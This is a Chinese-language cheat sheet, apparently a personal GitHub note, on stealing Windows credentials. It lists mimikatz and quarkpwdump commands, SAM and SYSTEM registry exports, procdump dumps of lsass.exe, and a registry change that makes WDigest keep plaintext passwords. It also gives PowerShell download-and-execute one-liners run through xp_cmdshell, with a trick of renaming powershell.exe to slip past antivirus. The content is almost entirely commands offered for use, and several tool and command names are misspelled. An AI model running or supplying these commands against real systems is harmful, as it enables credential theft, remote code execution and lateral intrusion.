




# 获取hash


>
>
>Windows密码算法:LM Hahs(从windows server 2008开始禁用)和NTLM Hash (从windows vista以及windows server 2003之后使用此加密算法)
>
>要获取Windows中的散列值和明文密码，必须将权限提升至system权限。本地用户名、散列值和其他安全验证信息存在于SAM文件中（此文件不可复制）。lsass.exe进程用于实现Windows的安全策略。可使用工具将散列值和明文密码从sam文件和lsass.exe进程中获取出来。

### pwdump


### quarkpwdump

>quarkpwdump使用
>
>quarkpwdump.exe -dhl


### mimikatz

```sh

mimikatz的用法
创建交互式shell环境
privilege::debug
sekurlsa::logonpasswords

minikatz.exe privilege::debug sekurlsa::logonpasswords exit
```


```sh
reg save hklm\system system.bak #导出注册表文件
reg save hklm\sam sam.bak 

	
minikatz:
	lasdump::sam /sam:C:\users\xxx\sam.bak \system:C:\users\xxx\system.bak
```


```sh
prodump.exe -accepteula -ma lsass.exe lsass.dmp #导出lsass.dmp文件
或使用任务管理器 lsass.exe进程  右击create dump file导出到文件

-----
mimikatz.exe
	sekurlsa::minidump lsass.dmp  #加载lsass.dmp
	sekurlsa::logonPasswords full   #导出散列值
```


### 使用Powershell对散列值进行dump操作


```sh
powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log 


exec ("xp_cmdshell''where powershell''")
exec ("xp_cmdshell'copy c:\xxx\powershell.exe test.txt'")
exec ("xp_cmdshell''powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log''")


----------------------------绕杀软
echo "xx.txt powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log" > tmp.bat
where powershell
copy c:\windows\system32\windowspowershell\v1.0\powershell.exe xx.txt

tmp.bat执行输出到c:\www\password.log中
```


### 修改注册表获取lsass.exe进程中的密码

lsass.exe 存储明文密码

minikatz抓取失败

需要使用prodump 使用

minikatx.exe 'lesse.dmp'

```sh 修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#2016server进行修改命令
修改后 shutdonw /r /t 0
#关机重启
上传procdump脚本
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
最终下载生成的lsass.dmp文件
使用mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
进行获取明文密码


```











